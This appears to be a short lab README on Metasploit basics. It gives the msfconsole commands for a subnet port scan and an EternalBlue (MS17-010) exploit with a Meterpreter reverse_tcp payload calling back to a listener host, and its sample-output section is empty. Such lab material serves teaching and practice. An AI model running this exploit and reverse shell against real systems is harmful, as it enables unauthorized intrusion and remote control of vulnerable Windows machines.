

# Metasploit Basics Lab

This lab demonstrates using **Metasploit** for reconnaissance and exploitation.

## Commands Used
```bash
msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

## Sample Output



## Lessons Learned
- Reconnaissance identifies open services.
- Exploits must match the target's OS and service versions.
